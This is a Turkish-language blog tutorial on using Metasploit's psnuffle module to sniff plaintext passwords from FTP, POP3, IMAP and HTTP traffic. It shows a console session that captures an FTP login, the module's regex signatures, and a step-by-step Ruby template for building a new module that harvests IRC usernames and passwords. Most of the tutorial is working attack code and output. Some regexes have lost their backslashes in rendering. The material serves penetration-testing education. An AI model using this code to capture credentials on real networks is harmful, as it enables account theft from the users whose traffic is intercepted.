 ```yaml
---
draft: false

title:  'MSF İçinde Parola Dinleme'
date: '2017-05-16T12:56:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'Metasploit kullanarak, ağda bulunan pop3, imap, ftp ve HTTP protokolleri üzerinden gönderilen parolaları dinleyebilirsiniz. Bu amaçla ‘psnuffle‘ modülü bulunmaktadır.' 
 
url:  /tr/msf-icinde-parola-dinleme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



Metasploit kullanarak, ağda bulunan pop3, imap, ftp ve HTTP protokolleri üzerinden gönderilen parolaları dinleyebilirsiniz. Bu amaçla ‘psnuffle‘ modülü bulunmaktadır.



`psnuffle` modülü, neredeyse hiçbir ayarlama yapmaya gerek kalmadan kullanılabilir. İsterseniz dışarıdan PCAP dosyası ithal edebilirsiniz. Buradaki örnekte, ayarlar olduğu gibi kullanılacaktır.


```bash
msf **&gt;** use auxiliary/sniffer/psnuffle
msf auxiliary**(**psnuffle**)** **&gt;** show options

Module options:

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   FILTER                      no        The filter string **for **capturing traffic
   INTERFACE                   no        The name of the interface
   PCAPFILE                    no        The name of the PCAP capture file to process
   PROTOCOLS  all              yes       A comma-delimited list of protocols to sniff or "all".
   SNAPLEN    65535            yes       The number of bytes to capture
   TIMEOUT    1                yes       The number of seconds to wait **for **new data

msf auxiliary**(**psnuffle**)** **&gt;** run
**[*********]** Auxiliary module execution completed
**[*********]** Loaded protocol FTP from /usr/share/metasploit-framework/data/exploits/psnuffle/ftp.rb...
**[*********]** Loaded protocol IMAP from /usr/share/metasploit-framework/data/exploits/psnuffle/imap.rb...
**[*********]** Loaded protocol POP3 from /usr/share/metasploit-framework/data/exploits/psnuffle/pop3.rb...
**[*********]** Loaded protocol URL from /usr/share/metasploit-framework/data/exploits/psnuffle/url.rb...
**[*********]** Sniffing traffic.....
**[*********]** Successful FTP Login: 192.168.1.100:21-192.168.1.5:48614 **&gt;&gt;** victim / pass **(**220 3Com 3CDaemon FTP Server Version 2.0**)**
```



Gördüğünüz gibi FTP protokolünde `victim` kullanıcı adı ve `pass` parolası ortaya çıkarıldı.



## Psnuffle Özelleştirme



İsterseniz, `psnuffle` aracını, varsayılan olarak dinlediği protokoller haricinde diğer protokoller için de tasarlayabilirsiniz.



Bu özelleştirme işlemi için yapılacak modüller, data/exploits/psnuffle klasörünün içine kaydedilmelidir. Yeni bir modül geliştirmek için öncelikle var olan bir modülü şablon olarak kullanabiliriz.



Aşağıda, POP3 modülünün Düzenli ifadeler kısmı görülmektedir. Bu düzenli ifadeler, dinleme esnasında hangi tür şablona uyan verilerin dikkate alınacağını tanımlamaktadır. Bir miktar karışık gibi görünebilir. Ancak düzenli ifadeleri öğrenmenizi tavsiye ediyoruz. Her yerde karşınıza çıkar ve öğrenirseniz, işinizi kolaylaştırırlar.


```bash
self.sigs **=** **{**
:ok **=&gt;** /^**(**+OK[^n]*******)**n/si,
:err **=&gt;** /^**(**-ERR**[**^n]*******)**n/si,
:user **=&gt;** /^USERs+**([**^n]+**)**n/si,
:pass **=&gt;** /^PASSs+**([**^n]+**)**n/si,
:quit **=&gt;** /^**(**QUITs*******[**^n]*******)**n/si **}**
```



## IRC Modülü



Aşağıdaki örneklerde, IRC protokolü için yazılmış bir modülde olması gerekenleri görebilirsiniz.



Öncelikle, dikkate alınacak sinyal tiplerini tanımlayalım. Buradaki IRC komutlarından IDENTIFY, her IRC sunucu tarafından kullanılmamaktadır. En azında Freenode bu şekilde kullanır.


```bash
self.sigs = {
:user =&gt; /^(NICKs+[^n]+)/si,
:pass =&gt; /b(IDENTIFYs+[^n]+)/si,}
```



## Oturum Tanımlama (Session)



Her modül için mutlaka tanımlanması gereken kısım, hangi Portlar ile ilgileneceğidir. Bu tanımlama için aşağıdaki şablonu kullanabilirsiniz.


```bash
**return if **not pkt[:tcp] # We don't want to handle anything other than tcp
**return if** **(**pkt[:tcp].src_port **!=** 6667 and pkt[:tcp].dst_port **!=** 6667**)** # Process only packet on port 6667

#Ensure that the session hash stays the same for both way of communication
**if** **(**pkt[:tcp].dst_port **==** 6667**)** # When packet is sent to server
s **=** find_session**(**"#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}-#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}"**)**
**else** # When packet is coming from the server
s **=** find_session**(**"#{pkt[:ip].src_ip}:#{pkt[:tcp].src_port}-#{pkt[:ip].dst_ip}:#{pkt[:tcp].dst_port}"**)**
end
```



Şimdi ise `self.sigs` bölümünde şablonu oluşturulan türde bir paket yakalandığında ne yapılacağını ayarlamanız gerekmekte. Bunun için de aşağıdaki şablonu kullanabilirsiniz.


```bash
**case** matched
when :user # when the pattern "/^(NICKs+[^n]+)/si" is matching the packet content
s[:user]**=**matches #Store the name into the session hash s for later use
# Do whatever you like here... maybe a puts if you need to
when :pass # When the pattern "/b(IDENTIFYs+[^n]+)/si" is matching
s[:pass]**=**matches # Store the password into the session hash s as well
**if** **(**s[:user] and s[:pass]) # When we have the name and the pass sniffed, print it
print "-&gt; IRC login sniffed: #{s[:session]} &gt;&gt; username:#{s[:user]} password:#{s[:pass]}n"
end
sessions.delete**(**s[:session]**)** # Remove this session because we dont need to track it anymore
when nil
# No matches, don't do anything else # Just in case anything else is matching...
sessions[s[:session]].merge!**({**k **=&gt;** matches**})** # Just add it to the session object
end
```



Tebrikler kendi modülünüzü yazdınız.
